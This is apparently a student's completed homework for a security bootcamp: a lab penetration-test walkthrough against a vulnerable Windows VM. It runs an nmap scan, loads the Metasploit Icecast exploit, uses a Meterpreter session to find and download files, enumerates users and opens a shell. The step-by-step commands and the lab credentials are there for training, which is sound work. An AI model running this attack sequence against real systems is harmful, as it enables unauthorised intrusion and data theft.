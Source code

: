 ## Homework: Penetration Test Engagement

In this activity, you will play the role of an independent penetration tester hired by GoodCorp Inc. to perform security tests against their CEO’s workstation.

- The CEO claims to have passwords that are long and complex and therefore unhackable.

- You are tasked with gaining access to the CEO's computer and using a Meterpreter session to search for two files that contain the strings `recipe` and `seceretfile`.

- The deliverable for this engagement will be in the form of a report labeled `Report.docx`.

#### Setup

- Before you begin, we'll need to start the Icecast server to emulate the CEO's computer.
  - Log onto the DVW10 machine (credentials `IEUser:Passw0rd!`) and wait for the Icecast application to popup.
  - Then click `Start Server`.

#### Reminders

- A penetration tester's job is not just to gain access and find a file. Pentesters need to find all vulnerabilities, and document and report them to the client. It's quite possible that the CEO's workstation has multiple vulnerabilities.

- If a specific exploit doesn't work, that doesn't necessarily mean that the target service isn't vulnerable. It's possible that something could be wrong with the exploit script itself. Remember, not all exploit scripts are right for every situation.

#### Scope

- The scope of this engagement is limited to the CEO's workstation only. You are not permitted to scan any other IP addresses or exploit anything other than the CEO's IP address.

- The CEO has a busy schedule and cannot have the computer offline for an extended period of time. Therefore, denial of service and brute force attacks are prohibited.

- After you gain access to the CEO’s computer, you may read and access any file, but you cannot delete them. Nor are you allowed to make any configurations changes to the computer.

- Since you've already been provided access to the network, OSINT won't be necessary.

#### Lab Environment

For this week's homework, please use the following VM setup:

- Attacking machine: Kali Linux `root:toor`
- Target machine: DVW10 `IEUser:Passw0rd!`

**NOTE**: You will need to login to the **DVW10** VM and start the `icecast` service prior to beginning this activity using the following procedure:

- After logging into DVW10, type "icecast" in the Cortana search box and hit **Enter**.
- The icecast application will launch.
- Click on **Start Server**.
- You are now ready to being the activity.

#### Deliverable

Once you complete this assignment, submit your findings in the following document:

- [Report.docx](Report-HW17-JeffPeterson.docx)

### Instructions

You've been provided full access to the network and are getting ping responses from the CEO’s workstation.

1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > Answer: `nmap -sV 192.168.0.20`

      ![nmap scan](Images/nmap-sV-scan.png)


2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:

   - Run the SearchSploit commands to show available Icecast exploits.

     > Answer:`searchsploit icecast`

     ![searchsploit results](Images/searchsploit-icecast.png)

3. Now that we know which exploits are available to us, let's start Metasploit:

   - Run the command that starts Metasploit:

     > Answer:`msfconsole`


4. Search for the Icecast module and load it for use.

   - Run the command to search for the Icecast module:

     > Answer:`search icecast`

  - Run the command to use the Icecast module:

       **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

     > Answer:`use 0`

     ![msfconsole](Images/msfconsole-search-icecast.png)


5. Set the `RHOST` to the target machine.

   - Run the command that sets the `RHOST`:

     > Answer:`set RHOSTS 192.168.0.20`

     ![options](Images/msfconsole-exploit-icecast-Options.png)

6. Run the Icecast exploit.

   - Run the command that runs the Icecast exploit.

     > Answer:`exploit` or `run`

     ![run exploit](Images/msfconsole-exploit-icecast.png)

7. You should now have a Meterpreter session open.

   - Run the command that performs a search for the `secretfile.txt` on the target.

     > Answer:`search -f *secretfile*.*`

     ![secret-file-search](Images/meterpreter-secretfile-search.png)

  - Run the command to performs a search for the `recipe.txt` on the target.

      > Answer:`search -f *recipe*.*`

      ![recipe-file-search](Images/meterpreter-recipe-search.png)


  - **Bonus**: Run the command that exfiltrates the `recipe*.txt` file.
    - > Answer:`download /Users/IEUser/Documents/Drinks.recipe.txt`

    - ![download-recipe-file](Images/meterpreter-recipe-file-download.png)


8. You can also use Meterpreter's local exploit suggester to find possible exploits.


   - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.


#### Bonus


A. Run a Meterpreter post script that enumerates all logged on users.

  > Answer:`run post/windows/gather/enum_logged_on_users`

  ![users](Images/meterpreter-post-loggedIn-Users.png)


B. Open a Meterpreter shell and gather system information for the target.

  > Answer:`shell`

C. Run the command that displays the target's computer system information:

   > Answer:`systeminfo`

   ![systeminfo](Images/systeminfo-01.png)



---

&copy; 2020 Trilogy Education Services, a 2U Inc Brand.   All Rights Reserved.
